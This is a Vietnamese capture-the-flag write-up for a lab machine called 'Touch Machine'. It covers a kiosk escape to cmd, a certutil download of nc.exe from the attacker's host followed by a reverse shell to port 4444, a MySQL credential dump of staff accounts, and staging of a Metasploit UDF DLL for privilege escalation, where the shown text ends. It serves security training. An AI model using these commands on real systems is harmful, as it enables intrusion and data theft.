# Lời giải — Touch Machine



---

### Cách lấy user flag

Đầu tiên, ta tiến hành nmap để quét các cổng hiện đang mở:  
`nmap -sV -sC -p- --min-rate 5000 -T4 <IP>`



Như ta có thể thấy, 4 cổng hiện tại đang mở, chú ý đến 2 cổng `5958` và `8443` cả 2 cổng này đều là giao thức http, giao diện web. Thử truy cập vào trang web bằng cổng `8443`



Giao diện cho ta thấy 1 trang đăng nhập, check thử source code của trang ta thấy có 1 hint




Ở trang đăng nhập này chúng ta không cần nhập `username` mà chỉ cần nhập `password` mà `password` đã được gợi ý là `serial number in DeviceHub packaging`  
Chạy lệnh: `curl -s http://<IP>:8443/api/status`



Vậy password là `NX-DH-2024-B7042`



Đăng nhập vào trang, giao diện hiện ra cho ta thấy `username` và `password` của người dùng, trông có vẻ như là của 1 vị khách nào đó trong các phần mềm quản lý thủ tục sân bay  
Do có `IP` và `username` `password`, ta sẽ tiến hành kết nối vào máy chủ của người khách này thông qua giao thức RDP (vì lab này gợi ý là hệ điều hành `Windows`)  
`xfreerdp /u:NX-DH-2024-B7042 /p:'NX-DH-2024-B7042' /cert:ignore`



Nó bắt ta phải đăng nhập



Dựa theo gợi ý của bài lab thì ta có thông tin: `Jenny Crawford / KS7X2M`



Ta đăng nhập thành công !!!



Ở bước này, theo như mình suy nghĩ thì nó bắt chúng ta phải xác thực bằng Passport của chúng ta, mà ở trang web thủ tục máy bay trước ta đã thành công đăng nhập được vào rồi.  
Mình sẽ tạm tắt tính năng `Scanner` trong `Passport Scanner` của web



Nhấn `Power Off`:  
Quay về phần bắt xác thức passport kia ấn `Scan` thì sẽ báo lỗi: 



Ta sẽ ấn vào đường link Troubleshooting kia để lợi dụng đăng nhập được vào giao diện web microsoft edge



Chạy lệnh `C://Windows//System32//cmd.exe` trên thanh tìm kiếm để tải cmd về vì ở giao diện này ta không thể truy cập được vào thanh task bar để mở các folder trong máy.



Sau khi mở được các folder có trong máy xong, ta vào `Desktop` rồi lấy `user flag` 

---

### Cách lấy Root flag

Để lấy được quyền root, Mình sẽ dùng Reverse shell để chiếm quyền hệ điều hành trước rồi bắt đầu từ bên trong máy nối cục bộ vào MySQL  
Chạy lệnh `python3 -m http.server 1234` ở bên terminal máy của mình 



Ta cũng mở luôn 1 netcat lắng nghe ở cổng 4444 bên terminal khác  
`nc -lnvp 4444`  
Ở bên `cmd` của máy nạn nhân(Windows) ta chạy lệnh: `certutil -urlcache -split -f http://10.10.16.128:1234/nc.exe n.exe && n.exe -e cmd.exe 10.10.16.128 4444`



Như vậy ở terminal kali linux của chúng ta đã kết nối thành công được vào máy nạn nhân  
Sau 1 hồi khám phá qua dữ liệu bên trong máy nạn nhân, mình đã thấy được MySQL cụ thể là file `index.ts` đây là file để quản lý cấu hình và tạo kết nối đến cơ sở dữ liệu MySQL   
Chạy lệnh `type index.ts` để xem thử đó là file gì



chạy lệnh `netstat -ano | findstr :3306` để kiểm tra dịch vụ MySQL có đang chạy hay không



Như vậy ta thấy dịch vụ đang chạy ở cổng 3306  
Chạy lệnh  
`C:\MySQL\bin\mysql.exe -u kiosk_app -pK!0sk_R3pl1ca#DB -h 127.0.0.1 -P 3306 -e “SHOW DATABASES;”`  
Và `C:\MySQL\bin\mysql.exe -u kiosk_app -pK!0sk_R3pl1ca#DB -h 127.0.0.1 -P 3306 htb_airways -e “SHOW TABLES;”`  
để truy vấn trực tiếp dữ liệu từ cơ sở dữ liệu HTB_airways



Chạy lệnh `C:\MySQL\bin\mysql.exe -u kiosk_app -pK!0sk_R3pl1ca#DB -h 127.0.0.1 -P 3306 htb_airways -e “SELECT employee_id, email, auth_code, role, active FROM _htb_staff;”` để trích xuất toàn bộ thông tin tài khoản nhân viên từ bảng `_htb_staff` trong cơ sở dữ liệu `htb_airways`



chạy lệnh: `“C:\ProgramData\HTB Airways” /s /b`



Chạy lệnh: `type “C:\ProgramData\HTB Airways\refresh-dates.bat”`



Mở 1 terminal mới rồi chạy lần lượt các lệnh:  
Command: `ls -la /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll`  
Command: `cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll`  
Command: `python3 -m http.server 9090`



Chuyển sang `cmd` của máy nạn nhân (Windows)  
Chạy lệnh: ` C:\MySQL\bin\mysql.exe -u root -p”HTB@irw4ys_DB!2026″ -e “SHOW VARIABLES LIKE ‘plugin_dir’;”`

